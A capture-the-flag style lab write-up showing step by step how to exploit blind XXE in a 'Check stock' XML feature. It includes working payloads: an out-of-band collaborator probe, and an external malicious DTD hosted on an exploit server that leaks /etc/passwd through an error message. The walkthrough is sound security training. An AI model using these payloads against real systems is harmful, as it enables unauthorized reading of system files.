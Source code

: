 # Lab: Exploiting blind XXE to retrieve data via error messages

 This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 

# Step 1 Find XXE

I want to see if XXE using entity definition is possible on the product page, noting my collaborator's URL`the6wc6kafwtuy237hucjrdg67cy0ood.oastify.com` I will use the following XXE payload to test:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://the6wc6kafwtuy237hucjrdg67cy0ood.oastify.com"> %xxe;]>
```

I then locate a page passing XML:

![image](https://user-images.githubusercontent.com/83407557/210408647-55682818-6ef3-4fd1-89af-eb55ba435a9f.png)

And inject my payload:

![image](https://user-images.githubusercontent.com/83407557/210408857-33efe1ba-a8f1-48ba-a120-58e1c7e3b17d.png)

Polling my collaborator, I know that I've found XXE:

![image](https://user-images.githubusercontent.com/83407557/210409036-c53e0546-aaa0-4ef6-a19c-67d1ffa9f27d.png)

# Step 2 craft error based malicious DTD file

I am given an attack-server to use for this lab:

![image](https://user-images.githubusercontent.com/83407557/210409207-215e925e-3b79-41d0-bb24-dc6209247f6b.png)

I note the attack server URL for the page I will host DTD:
`https://exploit-0abe000b04492d3dc50763c101cc00c3.exploit-server.net/exploit`

I craft the following DTD file as the body parameter that will error with the /etc/passwd file contained within:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
I store this as the body on my attack-server page:

![image](https://user-images.githubusercontent.com/83407557/210409784-1c756552-882f-4103-aad7-fdf93e404c3d.png)


# Step 3 use XXE to execute DTD file on attack server

Payload with attack server DTD file URL:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0abe000b04492d3dc50763c101cc00c3.exploit-server.net/exploit"> %xxe;]>
```
I then inject the payload into the /product/stock page:

![image](https://user-images.githubusercontent.com/83407557/210410123-2a4456cf-ec43-47eb-b3c7-81442a0f2203.png)

# Step 4 Checking logs/history

Checking the server's access logs, I see that the /exploit was requested:

![image](https://user-images.githubusercontent.com/83407557/210410479-ca2c5346-0946-479d-96b6-7e8b11c0655d.png)

Checking the htto history in burp, I see that the repsonse errored, and contains the /etc/passwd file:

![image](https://user-images.githubusercontent.com/83407557/210410751-a37ee004-3566-4092-a9d4-ad4a72b2840d.png)

Which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210410893-9c469d9e-39b8-4981-8982-225ee3a5d8da.png)


